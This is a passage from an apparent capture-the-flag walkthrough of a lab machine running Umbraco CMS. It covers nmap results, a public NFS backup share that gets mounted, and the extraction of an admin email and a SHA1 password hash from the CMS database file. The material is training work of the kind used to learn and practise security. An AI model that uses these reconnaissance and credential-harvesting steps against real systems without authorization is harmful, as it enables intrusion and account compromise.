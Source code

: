 ```
OS:80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m31s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-26T22:55:29
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.61 ms 10.10.14.1
2   30.75 ms 10.10.10.180

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 26 23:53:20 2020 -- 1 IP address (1 host up) scanned in 86.43 seconds
```

## Discovery

We can find some interesting pages on the web server:

- http://10.10.10.180/people/
- http://10.10.10.180/about-us/todo-list-for-the-starter-kit/
- http://10.10.10.180/umbraco/#/login/false?returnPath=%252Fforms

The last one suggests an Umbraco CMS is used.

Also the mountd service allow us to list mounts and as there is a public
nfs share we can mount it:

```
$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)

$ sudo mount 10.10.10.180:/site_backups $(pwd)/dossier
```

Then we can find a file leaking the Umbraco admin credentials:

```
$ strings App_Data/Umbraco.sdf | grep admin@htb
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
```
